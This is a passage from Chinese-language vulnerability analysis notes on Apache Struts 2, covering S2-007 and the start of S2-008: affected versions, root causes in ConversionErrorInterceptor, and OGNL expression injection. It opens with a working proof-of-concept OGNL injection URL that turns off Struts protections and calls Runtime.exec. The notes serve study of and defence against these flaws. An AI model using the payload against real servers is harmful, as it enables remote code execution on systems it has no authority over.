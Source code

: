 poc:

```text
login.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'deepin-calculator\')')(bla)(bla)
```


## S2-007 {#s2-007}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.2.3


### 漏洞描述 {#漏洞描述}

当配置了验证规则，且类型转换出错时，ConversionErrorInterceptor 类对产生错误的参
数值进行了不安全的字符串拼接，而造成了 OGNL 表达式注入

漏洞的入口类是
S2-007/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ConversionErrorInterceptor.class

当发生类型转换错误时进入 ConversionErrorInterceptor#intercept 方法，在该方法中获
取导致错误的参数值，并在 getOverrideExpr 方法进行拼接

```java
protected Object getOverrideExpr(ActionInvocation invocation, Object value) {
    return "'" + value + "'";
}
```

可见攻击者可以闭合单引号注入 OGNL 表达式，使其返回值的形式为： `'' + (#xxxx) +
''`, 最后导致中间的表达式执行


## S2-008 {#s2-008}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.17


### 漏洞描述 {#漏洞描述}

为了避免攻击者通过参数执行任意方法，xwork.MethodAccessor.denyMethodExecution 参
数的值默认为 true，且 SecurityMemberAccess.allowStaticMethodAccess 参数值默认为
false。而且从 Struts 2.2.1.1 开始，ParameterInterceptor 只允许以下格式的参数：

```text
acceptedParamNames = "[a-zA-Z0-9\.][()_']+";
```
